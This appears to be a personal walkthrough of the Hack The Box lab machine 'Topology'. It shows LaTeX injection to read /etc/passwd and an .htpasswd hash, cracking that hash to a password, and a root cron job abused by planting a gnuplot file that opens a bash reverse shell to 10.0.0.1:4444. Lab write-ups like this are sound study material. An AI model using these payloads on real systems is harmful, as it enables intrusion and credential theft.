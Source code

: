 ```yaml
---
title: HTB 5 - Topology
tag: htb
category: cyber
---
```


## Comments

This was an interesting box because the initial foothold comes from a lesser known language (no spoilers).

I also managed to solve all except the foothold which I used a very minor hint (related to syntax). Otherwise, the box was pretty straightforward, no completely new concepts.

## Walkthrough

Target IP: 

    10.10.11.217

### Enumeration

Start with nmap scan:

    PORT   STATE SERVICE REASON  VERSION
    22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
    80/tcp open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
    | http-methods: 
    |_  Supported Methods: HEAD GET POST OPTIONS
    |_http-server-header: Apache/2.4.41 (Ubuntu)
    |_http-title: Miskatonic University | Topology Group
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Normal response, we see `ssh` and `http` ports open.

The site at `10.10.11.217` loads and there is nothing extraordinary there.

We have a more interesting page at `http://latex.topology.htb/equation.php`. Add that to the `/etc/hosts` file.

This page is a LaTeX app that converts LaTeX formatted inputs into math equations.

It uses purely `GET` commands and user input is passed into the 
`eqn` parameter.

Interestingly, there is also a `latex.topology.htb/` index page which shows all the other files within this directory, including the main `/equation.php` page.

    [DIR]	demo/	2023-01-17 12:26 	- 	 
    [ ]	equation.php	2023-06-12 07:37 	3.8K	 
    [ ]	equationtest.aux	2023-01-17 12:26 	662 	 
    [ ]	equationtest.log	2023-01-17 12:26 	17K	 
    [ ]	equationtest.out	2023-01-17 12:26 	0 	 
    [ ]	equationtest.pdf	2023-01-17 12:26 	28K	 
    [IMG]	equationtest.png	2023-01-17 12:26 	2.7K	 
    [TXT]	equationtest.tex	2023-01-17 12:26 	112 	 
    [IMG]	example.png	2023-01-17 12:26 	1.3K	 
    [TXT]	header.tex	2023-01-17 12:26 	502 	 
    [DIR]	tempfiles/	2023-10-12 03:27 	- 

`equationtest.log` shows that the backend is calling a library called `pdfTex`. This library renders text into pdfs.

Knowing that `/equation.php` passes the user input to the backend, there is potential for LaTeX injection.

### Foothold

This is the foothold that uses a lesser known language. Luckily, there is a list of injection payloads we can try, courtesy of [this repo](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX%20Injection).

The most straightforward ones that immediately give you shell access don't work.

    \write18
    \input

Both options result in `Illegal command.`. Hence, we know there are some restrictions over what can be injected.

Next, I tried a basic file write using `\newwrite\outfile`. This creates a new file in the `/tempfiles` directory, so I know that there are some commands that can still be injected.

If you look at the docs for `pdfTex` and also in the `.log` file, it is mentioned that shell-escape commands are restricted for security purposes, meaning not all commands (like `\write18`) will be allowed by the server.

With that, I tried all the other options in the repo. I was stuck here for a long time and forced to look at the hints. I realised the solution was right in front of me the whole time... In `equationtest.tex`, the formatting for the input is explicitly stated: strings must be enclosed with `$`. 

    $ \int_{a}^b\int_{c}^d f(x,y)dxdy $

It even says so in the first line of the repo - not sure how I missed that, but it's an important lesson to be more careful with syntax - my major weakness.

> You might need to adjust injection with wrappers as \[ or $.

Once that was solved, I went back to try the default payload that lets us read the `/etc/passwd` file.

    $\lstinputlisting{/etc/passwd}$

In the output pdf/ image, we see that there is a user named `vdaisley`. I tried my luck to get `/vdaisley/user.txt` using the same payload method, but it wasn't so simple.

Next, I had an idea to apply the same payload to read out other files that may contain user passwords.

In the `/etc/passwd` file, I noticed there was a `www-data` user that is the default user for the Apache server. Apache stores credentials in `.htpasswd` so we may be able to read from it.

I checked the various default config files in `/etc/apache2`, as well as the default folder that Apache user stores files in `/var/www/html` but there was not `.ht` files.

At this point I was stuck trying to find the correct path to apply the payload to. I then realised that I never did a DNS scan at the start, so I ran one with FFUF with a word length filter of 1612 (this just removes the false positive subdomains)

    ./ffuf -c -w ~/Downloads/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u http://topology.htb -H "Host: FUZZ.topology.htb" -fw 1612

    dev                     [Status: 401, Size: 463, Words: 42, Lines: 15, Duration: 1596ms]
    stats                   [Status: 200, Size: 108, Words: 5, Lines: 6, Duration: 1580ms]

This was the missing piece! We have 2 more subdomains in addition to `latex.`.

`stats.topology.htb` hosts a basic server load chart 

`dev.topology.htb` is an admin page that requires login, specifically Apache authentication.

I was actually on the right track searching for `.htpasswd` in the `/www/var/` directories, but I didn't understand how `/www/var/` is usually structured. Because the `dev.` subdomain is the one that requires authentication, this means that `/www/var/dev` is the directory that holds the `.htpasswd` file and **not** `/www/var/html` which is the main page that loads at `http://topology.htb`. It's a good lesson to always have a local install of the system you are trying to hack so that you have visibility of the internal structures while attempting exploits.

Trying the payload on `/www/var/dev/.htpasswd`, we get a hash:

     $apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0

`john` with `rockyou.txt` cracks this quickly and we get the password: `calculus20`.

### Privilege Escalation

Using `vdaisley:calculus20` lets us log into the `dev.` site, but it's pretty boring there. Let's try to SSH with the same credentials... and it works. We get user.txt = 1a6a16a31517f29e51af95bd0e2e4bbf

From here, we do the usual privilege escalation checks to find the `user` has no sudo privilege. 

Next, check existing processes and regularly triggered processes. 
We download `pspy64` into the target which, when run, will show all command executions in the target as soon as they happen.

    2023/10/13 12:41:22 CMD: UID=0     PID=1      | /sbin/init 
    2023/10/13 12:42:01 CMD: UID=0     PID=20829  | /bin/sh /opt/gnuplot/getdata.sh 
    2023/10/13 12:42:01 CMD: UID=0     PID=20828  | /bin/sh -c /opt/gnuplot/getdata.sh 
    2023/10/13 12:42:01 CMD: UID=0     PID=20827  | /usr/sbin/CRON -f 
    2023/10/13 12:42:01 CMD: UID=0     PID=20826  | /usr/sbin/CRON -f 
    2023/10/13 12:42:01 CMD: UID=0     PID=20834  | /usr/sbin/CRON -f 
    2023/10/13 12:42:01 CMD: UID=0     PID=20833  | cut -d   -f3,7 
    2023/10/13 12:42:01 CMD: UID=0     PID=20832  | tr -s   
    2023/10/13 12:42:01 CMD: UID=0     PID=20831  | 
    2023/10/13 12:42:01 CMD: UID=0     PID=20835  | find /opt/gnuplot -name *.plt -exec gnuplot {} ; 
    2023/10/13 12:42:01 CMD: UID=0     PID=20836  | find /opt/gnuplot -name *.plt -exec gnuplot {} ; 
    2023/10/13 12:42:01 CMD: UID=0     PID=20840  | sed s/,//g 
    2023/10/13 12:42:01 CMD: UID=0     PID=20839  | cut -d  -f 3 
    2023/10/13 12:42:01 CMD: UID=0     PID=20838  | grep -o load average:.*$ 
    2023/10/13 12:42:01 CMD: UID=0     PID=20837  | uptime 
    2023/10/13 12:42:01 CMD: UID=0     PID=20841  | /bin/sh /opt/gnuplot/getdata.sh 
    2023/10/13 12:42:01 CMD: UID=0     PID=20842  | /bin/sh /opt/gnuplot/getdata.sh 
    2023/10/13 12:42:01 CMD: UID=0     PID=20843  | find /opt/gnuplot -name *.plt -exec gnuplot {} ; 

This looks like the set of functions that allows periodic update of the `stats.` graph. Furthermore, all of these are being run as root (`UID=0`)

There are 2 potential options here.
1. We have getdata.sh which is a custom function that we may be able to exploit.
2. We can write malicious code into a `.plt` file and leave it in `/opt/gnuplot`, then wait until it gets executed by 

        find /opt/gnuplot -name *.plt -exec gnuplot {} 

Which essentially searches the directory for any files ending with `.plt` and then executing them with `gnuplot`.

We somehow have write access to /opt/gnuplot but no read access.

    ls -l
    total 4
    drwx-wx-wx 2 root root 4096 Oct 13 11:20 gnuplot

This makes option (2) simple. Just write a reverse shell and save it as `revshell.plt`. `gnuplot` can be escaped using the `system` command as per GTFObin.

    system "bash -c 'bash -i >& /dev/tcp/10.0.0.1/4444 0>&1'"

And we have root.txt = 6adaa775b1b2ce9a83f312ec058a3876

Simple enough.

*That's all for tonight, ciao.*


